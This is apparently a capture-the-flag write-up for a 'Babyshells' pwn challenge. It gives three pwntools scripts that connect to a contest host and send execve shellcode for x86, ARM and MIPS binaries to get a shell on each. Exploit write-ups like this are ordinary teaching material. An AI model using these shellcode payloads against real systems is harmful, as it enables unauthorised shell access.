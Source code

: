 # Babyshells - Pwn
> If you hold a babyshell close to your ear, you can hear a stack getting smashed

In this task we were given three binaries, in x86, ARM and MIPS respectively. All of them jumped into our buffer so we can send the shellcode directly on all three binaries. Then each binary gives one third of the flag. 

x86:
```
p=remote("52.30.206.11",7000)
p.recvuntil("> ")
p.sendline("1")
p.recvuntil("gimme: ")
exploit = ""
exploit += "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
p.sendline(exploit)
p.interactive()
```

ARM:
```
from pwn import *
 
p=remote("52.30.206.11",7001)
p.recvuntil("> ")
p.sendline("1")
p.recvuntil("gimme: ")
exploit = ""
exploit += "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x92\x1a\x02\x92\x78\x46\x0e\x30\x01\x90\x01\xa9\x04\x1c\x07\x34\x22\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41\xc0\x46"
p.sendline(exploit)
p.interactive()
```

MIPS:
```
from pwn import *
 
p=remote("52.30.206.11",7002)
p.recvuntil("> ")
p.sendline("1")
p.recvuntil("gimme: ")
exploit = ""
exploit += "\x28\x06\xff\xff\x3c\x0f\x2f\x2f\x35\xef\x62\x69\xaf\xaf\xff\xf4\x3c\x0e\x6e\x2f\x35\xce\x73\x68\xaf\xae\xff\xf8\xaf\xa0\xff\xfc\x27\xa4\xff\xf4\x28\x05\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"
p.sendline(exploit)
p.interactive()
```
